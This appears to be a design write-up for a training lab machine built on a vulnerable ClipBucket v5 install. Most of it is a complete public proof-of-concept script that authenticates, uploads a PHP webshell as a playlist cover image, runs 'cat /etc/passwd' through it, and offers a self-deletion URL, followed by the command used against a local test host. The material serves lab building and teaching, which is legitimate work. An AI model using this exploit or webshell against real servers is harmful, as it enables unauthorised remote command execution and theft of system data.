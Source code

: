 After the web-GUI configuration is done, the student can start solving the machine, there needs to be a way for him to retrieve the admin credentials, which we can provide as default credentials for the software, chain another vulnerability to exploit, or leak the credentials on another service.

Once the admin credentials are found, and vulnerability analysis is performed the student should be able to determine the vulnerability the system has, and the exploit that he should perform against our application, and should be able to find a public PoC to do so.

The PoC to be used is provided as a reference in the official security advisory (https://github.com/MacWarrior/clipbucket-v5/security/advisories/GHSA-98vm-2xqm-xrcc) issued by MacWarrior, the lead developer of ClipBuckets-v5.

## PoC

```python
#!/usr/bin/python

# by Ka Wing Ho - wingz
# assumes Linux system not Windows
# python poc.py <username> <password> <http(s)://target>

from datetime import datetime
import requests
import sys

# get args
USAGE = "Usage: python {} <username> <password> <http(s)://target>".format(sys.argv[0])
if len(sys.argv) < 4:
    print(USAGE)
    sys.exit()

user = sys.argv[1]
passw = sys.argv[2]
target = sys.argv[3]

if 'http' not in target:
    print(USAGE)
    print("[>] Please specify http:// or https:// protocol")
    sys.exit()

# remove trailing slash if present
if target[-1] == "/": target = target[:-1]

# testing connection to target
r = requests.get(target)
if "ClipBucketV5" not in r.text:
    print("[>] Target frontpage not accessible or is not ClipBucketV5")
    sys.exit()

# obtain user session
s = requests.Session()
login_data = {
        "login"   : "login",
        "username": user,
        "password": passw
}

r = s.post("{}/signup.php?mode=login".format(target),login_data)
if 'Username and Password Didn&#039;t Match' in r.text:
    print("[>] Authentication failed, bad username and/or password")
    sys.exit(1)

# check if admin or not, adjust web request
r = s.get(target)
if "Admin Area" in r.text:
    print("[+] Admin session, using Admin URL")
    upload_url = "/admin_area/manage_playlist.php"
    isAdmin = True
else:
    print("[+] Low-level session, using regular user URL")
    upload_url = "/manage_playlists.php"
    isAdmin = False

# upload webshell
dt = datetime.today().strftime('%Y/%m/%d')
webshell_code = '''<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>'''

payload = {
    "upload_playlist_cover": (None,"1"),
    "playlist_cover" : ("shell.php", webshell_code)
} # we don't need any of the other parameters, just the essentials

r = s.post("{}{}?mode=edit_playlist&pid=1337".format(target,upload_url), files=payload)
if isAdmin and r.status_code == 200 and "Playlist does not exist" in r.text:
    print("[+] Webshell upload as admin succeeded")
elif not isAdmin and r.status_code == 200 and "Playlist cover has been uploaded" in r.text:
    print("[+] Webshell upload as low-level user succeeded")
else:
    print("[-] Webshell upload failed!!!")
    sys.exit(1)

# verify webshell (with unauth-ed session)
webshell_url = "{}/images/playlist_covers/{}/1337.php".format(target,dt)
r = requests.get(webshell_url)
if r.status_code == 404:
    # you may have to try +- 1 day to account for different server clocktimes
    print("[>] Webshell browsing failed! Maybe incorrect date in URL path: {}".format(dt))
    print("[>] Try increasing/decreasing the date: {}".format(webshell_url))
    sys.ext(1)
elif r.status_code == 200:
    pass
else:
    print("[>] Unknown error: {}".format(r.status_code))
    sys.exit(2)

# execute webshell sample (with unauth-ed session)
cmd = "cat+/etc/passwd"
rce_url = "{}/images/playlist_covers/{}/1337.php?cmd={}".format(target,dt,cmd)
print("[+] Sample webshell usage: \033[94m{}\x1b[0m (you can copy+paste this in browser)".format(rce_url))
r = requests.get(rce_url)

print(r.text.replace("<pre>","\n").replace("</pre>",""))

cmd = "rm+1337.php"
delete_url = "{}/images/playlist_covers/{}/1337.php?cmd={}".format(target,dt,cmd)
print("[+] Cleanup: use the webshell to delete itself => \033[93m{}\x1b[0m (you can copy+paste this in browser)".format(delete_url))
```

After running the PoC with the admin credentials, we will get a web-shell as demonstrated by my exploitation of the deployed machine below:

```bash
python3 poc.py admin admin http://127.0.0.1
```

![[Screenshot from 2025-03-02 17-48-56.png]]